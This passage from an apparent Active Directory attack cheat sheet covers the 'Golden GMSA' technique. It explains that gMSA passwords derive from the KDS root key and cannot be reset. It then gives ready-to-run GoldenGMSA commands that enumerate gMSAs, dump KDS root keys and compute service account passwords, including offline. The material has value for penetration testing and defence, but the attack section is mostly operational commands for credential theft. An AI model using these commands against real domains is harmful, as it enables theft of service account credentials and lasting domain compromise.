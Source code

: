 - [gMSA\_Permissions\_Collection.ps1](https://gist.github.com/kdejoyce/f0b8f521c426d04740148d72f5ea3f6f#file-gmsa_permissions_collection-ps1) based on Active Directory PowerShell module
    

## Forging Golden GMSA

> One notable difference between a **Golden Ticket** attack and the **Golden GMSA** attack is that they no way of rotating the KDS root key secret. Therefore, if a KDS root key is compromised, there is no way to protect the gMSAs associated with it.

:warning: You can't "force reset" a gMSA password, because a gMSA's password never changes. The password is derived from the KDS root key and `ManagedPasswordIntervalInDays`, so every Domain Controller can at any time compute what the password is, what it used to be, and what it will be at any point in the future.

- Using [GoldenGMSA](https://github.com/Semperis/GoldenGMSA)
    
    ```ps1
    # Enumerate all gMSAs
    GoldenGMSA.exe gmsainfo
    # Query for a specific gMSA
    GoldenGMSA.exe gmsainfo --sid S-1-5-21-1437000690-1664695696-1586295871-1112
    
    # Dump all KDS Root Keys
    GoldenGMSA.exe kdsinfo
    # Dump a specific KDS Root Key
    GoldenGMSA.exe kdsinfo --guid 46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb
    
    # Compute gMSA password
    # --sid <gMSA SID>: SID of the gMSA (required)
    # --kdskey <Base64-encoded blob>: Base64 encoded KDS Root Key
    # --pwdid <Base64-encoded blob>: Base64 of msds-ManagedPasswordID attribute value
    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 # requires privileged access to the domain
    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey AQAAALm45UZXyuYB[...]G2/M= # requires LDAP access
    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey AQAAALm45U[...]SM0R7djG2/M= --pwdid AQAAA[..]AAA # Offline mode
    ```
    